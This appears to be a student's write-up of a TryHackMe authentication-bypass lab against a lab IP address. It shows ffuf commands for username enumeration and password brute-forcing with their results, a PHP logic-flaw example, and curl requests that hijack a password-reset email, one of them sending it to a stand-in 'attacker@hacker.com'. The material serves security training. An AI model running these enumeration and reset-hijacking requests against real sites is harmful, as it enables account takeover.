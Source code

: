 # Authenticate_Bypass 

> VOiD | Wednesday 18 August 2021 07:22:30 PM IST

My IP : 10.11.43.119
Target IP : 10.10.253.173

```bash
ffuf -w /usr/share/seclists/Usernames/Names/names.txt  -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.253.173/customers/signup -mr "username already exists" 

admin                   [Status: 200, Size: 3712, Words: 984, Lines: 77]
robert                  [Status: 200, Size: 3712, Words: 984, Lines: 77]
simon                   [Status: 200, Size: 3712, Words: 984, Lines: 77]
steve                   [Status: 200, Size: 3712, Words: 984, Lines: 77]




ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.253.173/customers/login -fc 200

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * W2: thunder
    * W1: steve


steve:thunder
```

# What is a Logic Flaw?
```

Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.


Logic Flaw Example

The below mock code example checks to see whether the start of the path the client is visiting begins with /admin and if so, then further checks are made to see whether the client is, in fact, an admin. If the page doesn't begin with /admin, the page is shown to the client.
```
```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```

Because the above PHP code example uses three equals signs (===), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting /adMin will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

Logic Flaw Practical

We're going to examine the Reset Password function of the Acme IT Support website (http://10.10.253.173/customers/reset). We see a form asking for the email address associated with the account on which we wish to perform the password reset. If an invalid email is entered, you'll receive the error message "Account not found from supplied email address".



For demonstration purposes, we'll use the email address robert@acmeitsupport.thm which is accepted. We're then presented with the next stage of the form, which asks for the username associated with this login email address. If we enter robert as the username and press the Check Username button, you'll be presented with a confirmation message that a password reset email will be sent to robert@acmeitsupport.thm.



At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.

This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver.
```bash

Curl Request 1:
user@tryhackme$ curl 'http://10.10.253.173/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
We use the -H flag to add an additional header to the request. In this instance, we are setting the Content-Type to application/x-www-form-urlencoded, which lets the web server know we are sending form data so it properly understands our request.
In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable $_REQUEST.

The PHP $_REQUEST variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```bash

Curl Request 2:
user@tryhackme$ curl 'http://10.10.253.173/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```


For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

```bash
Curl Request 2 (but using your @acmeitsupport.thm account):
user@tryhackme:~$ curl 'http://10.10.253.173/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```


